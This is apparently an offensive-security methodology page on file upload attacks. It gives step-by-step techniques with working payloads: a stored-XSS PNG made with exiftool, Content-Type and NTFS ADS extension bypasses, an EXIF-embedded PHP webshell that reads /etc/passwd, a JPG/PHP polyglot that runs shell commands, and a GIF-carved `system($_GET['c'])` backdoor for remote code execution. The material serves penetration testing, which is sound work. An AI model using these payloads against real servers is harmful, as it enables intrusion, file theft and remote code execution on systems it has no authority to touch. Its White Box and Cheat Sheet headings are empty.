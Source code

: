 # Upload of Malicious Files

## Check List

## Methodology

### Black Box

#### XSS Stored via Upload avatar PNG \[HTML]

{% stepper %}
{% step %}
Create Malicious PNG Payload&#x20;
{% endstep %}

{% step %}
Download the XSS payload PNG from&#x20;

[https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/XSS%20Injection/Files/xss\_comment\_exif\_metadata\_double\_quote.png](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/XSS%20Injection/Files/xss_comment_exif_metadata_double_quote.png)

or use exiftool to embed

```bash
exiftool -Comment="">alert(prompt('XSS BY ZEROX4'))" xss_comment_exif_metadata_double_quote.pn
```
{% endstep %}

{% step %}
Access Avatar Upload Page
{% endstep %}

{% step %}
Go to the locate the avatar upload form
{% endstep %}

{% step %}
Intercept Upload Request in Burp Suite
{% endstep %}

{% step %}
Modify Content-Type to `text/html`
{% endstep %}

{% step %}
Edit the Content-Type header for the uploaded file from `image/png` to `text/html` in the request
{% endstep %}

{% step %}
Submit Modified Request
{% endstep %}

{% step %}
Forward the altered request to upload the malicious PNG as HTML
{% endstep %}

{% step %}
Verify Stored XSS Execution
{% endstep %}

{% step %}
Confirm the file is saved on example.com and access it to trigger the alert payload
{% endstep %}
{% endstepper %}

***

#### NTFS Alternate Data Streams (ADS) abuse

{% stepper %}
{% step %}
Sometimes applications identify file types based on their first signature bytes. Adding/replacing them in a file might trick the application

```
PNG: \x89PNG\r\n\x1a\n\0\0\0\rIHDR\0\0\x03H\0\xs0\x03[
JPG: \xff\xd8\xff
GIF: GIF87a OR GIF8;
```
{% endstep %}

{% step %}
Using NTFS alternate data stream (ADS) in Windows. In this case, a colon character ":" will be inserted after a forbidden extension and before a permitted one. As a result, an empty file with the forbidden extension will be created on the server ("`file.asax:.jpg`") This file might be edited later using other techniques such as using its short filename. The "::$data" pattern can also be used to create non-empty files. Therefore, adding a dot character after this pattern might also be useful to bypass further restrictions ("`file.asp::$data.`")
{% endstep %}
{% endstepper %}

***

#### EXIF metadata webshell

{% stepper %}
{% step %}
Find a nice picture and embed the shell into the image like this

```bash
exiftool -documentname='<?php echo file_get_contents("/etc/passwd"); ?>' picture.png
```
{% endstep %}

{% step %}
Rename the jpg/png picture to the .php extension
{% endstep %}

{% step %}
Upload the picture
{% endstep %}

{% step %}
You will get an 500 error page. Ignore it. Grep the time from the response and convert it to a timestamp
{% endstep %}

{% step %}
Use the timestamp to find your shell

&#x20;`https://example.org/uploads/profile/[USERNAMAE][timestamp].php`
{% endstep %}
{% endstepper %}

***

#### Polyglot file upload

{% stepper %}
{% step %}
A Magic Number is a unique sequence of bytes at the beginning of a file that identifies its type. Even if a file’s extension is changed, the Magic Number helps the system recognize the actual file format Examples

```
PNG files start with: 89 50 4E 47 0D 0A 1A 0A
PDF files start with: %PDF-1.7
```

```http
Content-Disposition: form-data; name="image"; filename="img.jpg"
Content-Type: image/jpeg

ÿØÿàJFIFÿÛC -> jpg Magic Number
... (binary data) ...
ÿÙ
```
{% endstep %}

{% step %}
I uploaded a normal .jpg image, and the server accepted it, returning a 200 OK status\
Exploit Attempt
{% endstep %}

{% step %}
I re-send the exact same request, but this time, I modified the image content by embedding the PHP shell code inside it
{% endstep %}

{% step %}
But I send the request and changed the file extension to PHP

```http
Content-Disposition: form-data; name="image"; filename="img.php" -> change to .PHP
Content-Type: image/jpeg

ÿØÿàJFIFÿÛC
... (binary data) ...
<?php
echo "<pre>";
system("uname -a");
echo "</pre>";
?>
ÿÙ
```
{% endstep %}

{% step %}
Result: The server accepted the modified file and returned 200 OK
{% endstep %}
{% endstepper %}

***

#### GIF image carving (PHP payload injection)

{% stepper %}
{% step %}
Identify possible image formats (starting with GIF)
{% endstep %}

{% step %}
Test how the server transforms the uploaded image
{% endstep %}

{% step %}
Replicate these transformations locally using ImageMagick and PHP
{% endstep %}

{% step %}
Determine if any sections of the image remain unmodified
{% endstep %}

{% step %}
Inject PHP code into those sections and test execution
{% endstep %}

{% step %}
Testing with GIF
{% endstep %}

{% step %}
I began with a simple one-color (black) GIF image to easily spot modifications. After uploading and downloading the image, I compared the original and transformed versions. The transformations included

Stripping EXIF data&#x20;

Resizing the image to 300x300 pixels To replicate this locally, I used the following PHP script

```php
<?php
$thumb = new Imagick('testgif.gif');
$thumb->resizeImage(300,300);
$thumb->writeImage('testgif2.gif');
$thumb->destroy();
?>
```
{% endstep %}

{% step %}
Through testing, I identified an unmodified section of the GIF file filled with `00` values. This provided enough space to inject my PHP payload
{% endstep %}

{% step %}
Payload Injection Using a hex editor in Burp Suite, I inserted the following PHP code into the GIF file

```php
<?php phpinfo();?>
<?php system($_GET['c']);?>
```
{% endstep %}

{% step %}
By carving these payloads into the unmodified section of the GIF file, I successfully achieved remote code execution after uploading the modified image
{% endstep %}
{% endstepper %}

***

### White Box

## Cheat Sheet

